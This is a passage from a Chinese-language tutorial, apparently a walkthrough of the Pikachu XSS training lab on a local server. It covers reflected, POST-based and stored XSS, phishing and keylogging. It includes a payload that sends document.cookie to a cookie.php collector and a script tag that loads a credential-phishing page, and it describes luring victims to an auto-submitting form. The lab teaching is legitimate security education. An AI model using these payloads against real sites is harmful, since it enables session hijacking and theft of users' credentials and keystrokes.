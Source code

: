     <script>document.location = 'http://127.0.0.1/pikachu-master/pikachu-master/pkxss/xcookie/cookie.php?cookie=' +document.cookie;</script>
    
    
        

这里的payload需要自己修改，由于都是本地，全部改成127.0.0.1即可，后面就是www后的路径。我自己phpstudy的www后的路径为pikachu-master/pikachu-master/pkxss/xcookie/cookie.php，注意一下需要修改这两个文件中的代码。![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fc2079fdf03ce4d5aaee2cee2052c8dea.png)

执行之后，跳回了首页。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F9eca8b9b73ad45a2a1fca41434f24ee0.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_d3F5LXplbmhlaQ%2Cshadow_50%2Ctext_Q1NETiBAd3lkMjAwMQ%3D%3D%2Csize_20%2Ccolor_FFFFFF%2Ct_70%2Cg_se%2Cx_16)-
打开xss后台，刷新，显示获取cookie。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F613b6969bf82471a85e944339ba73c6e.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_d3F5LXplbmhlaQ%2Cshadow_50%2Ctext_Q1NETiBAd3lkMjAwMQ%3D%3D%2Csize_20%2Ccolor_FFFFFF%2Ct_70%2Cg_se%2Cx_16)-
**postxss**-
输入账号密码登录，页面跳转，输入字符，不难发现并没有在url中提交参数。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F67b9d374f7c84bbe88652672026163af.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_d3F5LXplbmhlaQ%2Cshadow_50%2Ctext_Q1NETiBAd3lkMjAwMQ%3D%3D%2Csize_20%2Ccolor_FFFFFF%2Ct_70%2Cg_se%2Cx_16)-
打开burp查看抓包。![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fdbd41ee23ca54a4d9fce32a4c84d8820.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_d3F5LXplbmhlaQ%2Cshadow_50%2Ctext_Q1NETiBAd3lkMjAwMQ%3D%3D%2Csize_20%2Ccolor_FFFFFF%2Ct_70%2Cg_se%2Cx_16)-
我们发现message是通过请求体返回，通过post方式传到后台。这样的话是不能把恶意代码嵌入url中。-
POST型XSS获取cookie原理-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fe41fb37c84cf41c49532f87f16977cb0.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_d3F5LXplbmhlaQ%2Cshadow_50%2Ctext_Q1NETiBAd3lkMjAwMQ%3D%3D%2Csize_20%2Ccolor_FFFFFF%2Ct_70%2Cg_se%2Cx_16)

我们需要自己搭一个恶意站点，然后在网站上放一个post表单，将存放POST表单的链接发送给受害者，诱导受害者点击。 这个POST表单会自动向漏洞服务器提交一个POST请求，实现受害者帮我们提交POST请求的目的。我们只需要诱导受害者点击上面的链接就能窃取用户的Cookie。

#### 3.2.10XSS危害-XSS进行钓鱼的原理和演示

钓鱼思路：-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F365a36f1b85e4915912f80427bd1d858.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_d3F5LXplbmhlaQ%2Cshadow_50%2Ctext_Q1NETiBAd3lkMjAwMQ%3D%3D%2Csize_20%2Ccolor_FFFFFF%2Ct_70%2Cg_se%2Cx_16)

打开xss钓鱼后台，打开存储型xss，输入`<script src="http://127.0.0.1/pikachu-master/pkxss/xfish/fish.php"></script>`，页面会出现弹窗，输入账号密码。当页面刷新时依然存在弹窗，所有访问者都会遇到弹窗，输入账号密码后，数据被存入后台，打开xss后台即可查看钓鱼数据。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F30afcb0f98dd467190e66854e1e09e70.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_d3F5LXplbmhlaQ%2Cshadow_50%2Ctext_Q1NETiBAd3lkMjAwMQ%3D%3D%2Csize_20%2Ccolor_FFFFFF%2Ct_70%2Cg_se%2Cx_16)

#### 3.2.11XSS危害XSS获取键盘记录原理和演示

**跨域：**-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F4eb4c510c45f4ac6beeb191b1a6fbab8.png)-
当协议、主机(主域名，子域名)、端口中的任意一一个不相同时，称为不同域。我们把不同的域之间请求数据的操作，成为跨域操作。-
**跨域同源策略**-
了安全考虑，所有的浏览器都约定了"同源策略”， 同源策略规定，两个不同域名之间不能使用JS进行相互操作。比如: x.com域名下的javascrip并不能操作y.com域下的对象。-
如果想要跨域操作,则需要管理员进行特殊的配置。-
比如通过: header( “Access -Control Allow- Origin:x.com” )指定。-
Tips:下面这些标签跨域加载资源(资源类型是有限制的)是不受同源策略限制的。

\`

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fbd73867d83944fb0aa5967e4448061b9.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_d3F5LXplbmhlaQ%2Cshadow_50%2Ctext_Q1NETiBAd3lkMjAwMQ%3D%3D%2Csize_15%2Ccolor_FFFFFF%2Ct_70%2Cg_se%2Cx_16)-
提交之后，这段js代码就被嵌入到了页面当中。打开rkserver，设置一个header，允许跨域访问。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F48fc2599980b481994a5252ed06a05fd.png)-
打开控制台，在页面上随意输入，可以看到请求。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fccda91ae30544aafa90b471692a36005.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_d3F5LXplbmhlaQ%2Cshadow_50%2Ctext_Q1NETiBAd3lkMjAwMQ%3D%3D%2Csize_20%2Ccolor_FFFFFF%2Ct_70%2Cg_se%2Cx_16)-
在页面上，随意进行输入。在后台查看，可以看到键盘敲击被记录。

